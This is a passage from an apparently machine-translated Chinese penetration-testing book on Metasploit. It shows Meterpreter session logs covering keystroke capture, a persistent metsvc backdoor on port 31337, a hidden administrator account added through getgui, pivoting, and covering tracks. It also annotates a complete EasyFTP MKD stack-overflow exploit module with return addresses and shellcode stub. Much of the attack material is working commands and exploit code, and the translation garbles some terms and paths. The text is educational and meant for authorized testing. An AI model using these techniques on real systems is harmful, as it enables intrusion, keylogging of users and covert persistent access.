C:Program FilesAdobeReader 9.0ReaderReader_sl.exe 
```

在这个阶段，我们将把 MeterMeter 外壳迁移到`explorer.exe`进程（`3172`，以便使用以下命令开始记录系统上的当前用户活动：

```
 meterpreter> migrate 3172
    [*] Migrating to 3172...
    [*] Migration completed successfully.
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter>keyscan_start
    Starting the keystroke sniffer... 
```

我们现在已启动键盘记录器，需要等待一段时间才能获取记录的数据块：

```
 meterpreter>keyscan_dump
    Dumping captured keystrokes...
    <Return> www.yahoo.com <Return><Back> www.bbc.co.uk <Return>
    meterpreter>keyscan_stop
    Stopping the keystroke sniffer... 
```

如你所见，我们已经放弃了目标的网络冲浪活动。同样，我们也可以通过迁移`winlogon.exe`进程（`648`来捕获所有登录系统的用户的凭证。

您已经利用并获得了对目标系统的访问权，但现在希望保持此访问权的永久性，即使在稍后阶段将修补被利用的服务或应用程序。这种活动通常称为后门服务。请注意，MeterMeter 外壳提供的后门服务在访问目标系统上的特定网络端口之前不需要身份验证。这可能会让一些不速之客进入您的目标，并造成重大风险。作为渗透测试参与规则的一部分，通常不允许进行此类活动。因此，我们强烈建议您将后门服务远离官方 pentest 环境。您还应确保在范围界定和接洽规则阶段以书面形式明确允许：

```
 msf exploit(ms08_067_netapi) > exploit
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1032) at Tue Nov 16 19:21:39 +0000 2010
    meterpreter>ps
    ...
     292   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE    
C:WINDOWSSystem32alg.exe
    1840  csrss.exe         x86   2        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32csrss.exe
     528   winlogon.exe      x86   2        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32winlogon.exe
     240   rdpclip.exe       x86   0        CUSTDESKMomin Desktop        
C:WINDOWSsystem32rdpclip.exe
    1060  userinit.exe      x86   0        CUSTDESKMomin Desktop        
C:WINDOWSsystem32userinit.exe
    1544  explorer.exe      x86   0        CUSTDESKMomin Desktop        
C:WINDOWSExplorer.EXE
    ...
    meterpreter> migrate 1544
    [*] Migrating to 1544...
    [*] Migration completed successfully.
    meterpreter> run metsvc -h
    ...
    meterpreter> run metsvc
    [*] Creating a meterpreter service on port 31337
    [*] Creating a temporary installation directory 
C:DOCUME~1MOMIND~1LOCALS~1TempoNyLOPeS...
    [*]  >> Uploading metsrv.dll...
    [*]  >> Uploading metsvc-server.exe...
    [*]  >> Uploading metsvc.exe...
    [*] Starting the service...
             * Installing service metsvc
     * Starting service
    Service metsvc successfully installed. 
```

因此，我们终于在我们的目标上启动了后门服务。我们将关闭当前的 MeterMeter 会话，并使用具有`windows/metsvc_bind_tcp`有效负载的 multi/handler 与我们的后门服务进行交互，只要我们愿意：

```
 meterpreter> exit
```

```
 [*] Meterpreter session 1 closed. Reason: User exit msf exploit(ms08_067_netapi) > back msf> use exploit/multi/handler msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp PAYLOAD => windows/metsvc_bind_tcp msf exploit(handler) > set LPORT 31337 LPORT => 31337 msf exploit(handler) > set RHOST 192.168.0.7 RHOST => 192.168.0.7 msf exploit(handler) > exploit [*] Starting the payload handler... [*] Started bind handler [*] Meterpreter session 2 opened (192.168.0.3:37251 ->
192.168.0.7:31337) at Tue Nov 16 20:02:05 +0000 2010 meterpreter>getuid Server username: NT AUTHORITYSYSTEM
```

让我们使用另一个有用的 MeterMeter 脚本`getgui`，为我们的目标启用远程桌面访问。以下练习将在目标上创建一个新的用户帐户，并启用远程桌面服务（如果以前已禁用）：

```
 meterpreter> run getgui -u btuser -p btpass
    [*] Windows Remote Desktop Configuration Meterpreter Script by 
Darkoperator
    [*] Carlos Perez carlos_perez@darkoperator.com
    [*] Language set by user to: 'en_EN'
    [*] Setting user account for logon
    [*]     Adding User: btuser with Password: btpass
    [*]     Adding User: btuser to local group 'Remote Desktop Users'
    [*]     Adding User: btuser to local group 'Administrators'
    [*] You can now login with the created user
    [*] For cleanup use command: run multi_console_command -rc
/root/.msf3/logs/scripts/getgui/clean_up__20101116.3447.rc 
```

现在，我们可以通过在另一个终端上输入以下命令，使用`rdesktop`程序登录我们的目标系统：

```
 # rdesktop 192.168.0.7:3389 
```

请注意，如果您已经为目标计算机上的任何现有用户持有破解密码，则只需执行`run getgui -e`命令即可启用远程桌面服务，而无需添加新用户。此外，不要忘记通过执行上一个输出末尾引用的`getgui/clean_up`脚本来清理系统上的轨迹。

我应该如何通过更深入地访问外部无法访问的目标网络来扩展攻击范围？Metasploit 提供了使用`route add targetSubnettargetSubnetMaskSessionId`命令查看并向目标网络添加新路由的功能（例如，路由添加`10.2.4.0 255.255.255.0 1`。这里，`SessionId`参数指向现有的 MeterMeter 会话（网关），`targetsubnet`参数是另一个网络地址（或双主以太网网络地址），它位于受损目标之外。一旦您将 Metasploit 设置为通过受损的主机会话路由所有流量，我们就可以进一步深入到通常无法从我们这边路由的网络中。这通常被称为旋转或抱脚。

# 编写漏洞模块

开发利用是 Metasploit 框架最有趣的方面之一。在本节中，我们将简要讨论围绕开发利用的核心问题，并通过从现有框架的数据库中获取一个实例来解释其关键框架。然而，在尝试编写自己的漏洞利用模块之前，熟练使用 Ruby 编程语言是很重要的。另一方面，反向工程的中级技能和对漏洞发现工具（例如，模糊器和调试器）的实际理解为漏洞利用构造提供了一个开放的地图。本节仅作为本主题的介绍，而不是完整的指南。

在我们的示例中，我们选择了利用漏洞（EasyFTP 服务器<=1.7.0.11 MKD 命令堆栈缓冲区溢出），这将提供利用 Easy FTP 服务器应用程序中缓冲区溢出漏洞的基本视图。您可以针对在其他 FTP 服务器应用程序中发现的类似漏洞移植此模块，从而有效地利用您的时间。利用漏洞代码位于`/usr/share/metasploit-framework/modules/exploits/windows/ftp/easyftp_mkd_fixret.rb`：

```
 ##
    # $Id: easyftp_mkd_fixret.rb 9935 2010-07-27 02:25:15Z jduck $
    ## 
```

前面的代码是一个基本头，表示文件名、修订号以及利用漏洞的日期和时间值：

```
 ##
    # This file is part of the Metasploit Framework and may be subject 
to
    # redistribution and commercial restrictions. Please see the 
Metasploit
    # Framework web site for more information on licensing and terms 
of use.
    # http://metasploit.com/framework/
    ##
    require 'msf/core' 
```

MSF core 库需要在攻击开始时进行初始化：

```
class Metasploit3 <Msf::Exploit::Remote 
```

在前面的代码中，`Exploitmixin/`类为远程 TCP 连接提供了各种选项和方法，如`RHOST`、`RPORT`、`Connect()`、`Disconnect()`、`SSL()`。以下代码是根据频繁需求和使用情况分配给该漏洞的等级：

```
 Rank = GreatRanking 
```

在下面的代码中，`Ftp mixin/`类与 FTP 服务器建立连接：

```
includeMsf::Exploit::Remote::Ftp 
```

以下代码提供了有关利用漏洞的一般信息，并指向已知引用：

```
def initialize(info = {}) 
super(update_info(info, 
      'Name'           => 'EasyFTP Server <= 1.7.0.11 MKD Command 
Stack Buffer Overflow', 
      'Description'    => %q{ 
          This module exploits a stack-based buffer overflow in 
EasyFTP Server 1.7.0.11 
and earlier. EasyFTP fails to check input size when 
parsing 'MKD' commands, which 
leads to a stack based buffer overflow. 

        NOTE: EasyFTP allows anonymous access by default. However, 
in order to access the 
        'MKD' command, you must have access to an account that can
create directories. 

        After version 1.7.0.12, this package was renamed 
"UplusFtp". 

        This exploit utilizes a small piece of code that I've 
referred to as 'fixRet'. 
        This code allows us to inject of payload of ~500 bytes 
into a 264 byte buffer by 
        'fixing' the return address post-exploitation.  See 
references for more information. 
      }, 
      'Author'         => 
        [ 
          'x90c',   # original version 
          'jduck'   # port to metasploit / modified to use fix-up 
stub (works with bigger payloads) 
        ], 
      'License'        => MSF_LICENSE, 
      'Version'        => '$Revision: 9935 $', 
      'References'     => 
        [ 
[ 'OSVDB', '62134' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/12044/' ], 
[ 'URL', 'http://www.exploit-db.com/exploits/14399/' ] 
        ], 
```

以下代码指示负载在执行过程完成后自行清理：

```
 'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread' 
```

以下代码段定义了外壳代码可用的 512 字节空间，列出了应终止有效负载传递的错误字符，并禁用 NOP 填充：

```
 }, 
      'Privileged'     => false, 
      'Payload'        => 
        { 
          'Space'    => 512, 
          'BadChars' => "x00x0ax0dx2fx5c", 
          'DisableNops' => true 
        }, 
```

下面的代码片段提供了关于目标平台的说明，并定义了易受攻击的目标（`0`到`9`，这些目标列出了 Easy FTP 服务器（`1.7.0.2 to 1.7.0.11`的不同版本，每个版本表示基于应用程序二进制文件（`ftpbasicsvr.exe`的唯一返回地址）。此外，增加了漏洞披露日期，默认目标设置为`0`（`v1.7.0.2`：

```
 'Platform'       => 'win', 
      'Targets'        => 
        [ 
[ 'Windows Universal - v1.7.0.2',   { 'Ret' =>
          0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.3',   { 'Ret' =>
          0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.4',   { 'Ret' =>
          0x004041dc } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.5',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.6',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.7',   { 'Ret' =>
          0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.8',   { 'Ret' =>
          0x00404481 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.9',   { 'Ret' =>
          0x00404441 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.10',  { 'Ret' =>
          0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.11',  { 'Ret' =>
          0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
        ], 
      'DisclosureDate' => 'Apr 04 2010', 
      'DefaultTarget' => 0)) 
```

在以下代码中，`check()`函数确定目标是否易受攻击：

```
end 

def check 
connect 
disconnect 

if (banner =~ /BigFoolCat/) 
return Exploit::CheckCode::Vulnerable 
end 
return Exploit::CheckCode::Safe 
end 
```

下面的代码定义了一个生成 NOP 底座的函数，以帮助进行 IDS/IPS/AV 规避。有些人认为 NOP 雪橇是一个快速和肮脏的解决这个问题，并相信他们不应该被使用，除非有一个特别好的理由。为简单起见，在编写模块的示例中，我们将函数保留在代码中：

```
defmake_nops(num); "C" * num; end 
```

下面的过程修复了可从中执行有效负载的返回地址。从技术上讲，它解决了堆栈寻址问题：

```
def exploit 
connect_login 

    # NOTE: 
    # This exploit jumps to ebp, which happens to point at a 
    partial version of 
    # the 'buf' string in memory. The fixRet below fixes up the 
    code stored on the 
    # stack and then jumps there to execute the payload. The value 
    inesp is used 
    # with an offset for the fixup. 
fixRet_asm = %q{ 
movedi,esp 
subedi, 0xfffffe10 
mov [edi], 0xfeedfed5 
addedi, 0xffffff14 
jmpedi 
    } 
fixRet = Metasm::Shellcode.assemble(Metasm::Ia32.new, 
fixRet_asm).encode_string 

buf = '' 
```

最初，利用漏洞缓冲区保存编码的返回地址和随机 NOP 指令：

```
print_status("Prepending fixRet...") 
buf<<fixRet 
buf<<make_nops(0x20 - buf.length)
```

以下代码在运行时将动态生成的外壳代码添加到我们的漏洞中：

```
print_status("Adding the payload...") 
buf<<payload.encoded 
```

下面的代码修复堆栈数据，并在保存外壳代码缓冲区的返回地址上进行短跳转：

```
 # Patch the original stack data into the fixer stub 
buf[10, 4] = buf[268, 4] 

print_status("Overwriting part of the payload with target 
    address...") 
buf[268,4] = [target.ret].pack('V') # put return address @ 268 
    bytes 
```

最后，使用前面的代码，我们使用易受攻击的 MKD FTP post authentication 命令将最终缓冲区发送到特定目标。由于 Easy FTP 服务器中的 MKD 命令易受基于堆栈的缓冲区溢出的影响，`buf`命令将使目标堆栈溢出，并通过执行我们的有效负载利用目标系统：

```
print_status("Sending exploit buffer...") 
send_cmd( ['MKD', buf] , false) 
```

使用以下代码关闭连接：

```
handler 
disconnect 
end 

end 
```

Metasploit 配备了有用的工具，例如用于 Win32 的`msfpescan`和用于 Linux 系统的`msfelfscan`，它们可以帮助您找到特定于目标的返回地址。例如，要从您选择的申请文件中找到可持续的回信地址，请键入`# msfpescan -p targetapp.ext`。

# 总结

在本章中，我们指出了目标开发所需的几个关键领域。在开始时，我们概述了脆弱性研究，强调了渗透测试人员需要掌握必要的知识和技能，这些知识和技能反过来对脆弱性评估有效。然后，我们提供了一个在线存储库列表，您可以从中找到一些公开披露的漏洞和攻击代码。在最后一节中，我们演示了称为 Metasploit 框架的高级开发工具包的实际使用。提供的练习纯粹是为了探索和理解通过战术利用方法获取目标的过程。此外，我们通过分析框架中示例开发代码的每个步骤来解释开发开发的见解，以帮助您理解基本框架和构建策略。

在下一章中，我们将讨论使用各种工具和技术升级权限和维护访问权限的过程，以及一旦获得目标，这将如何发挥作用。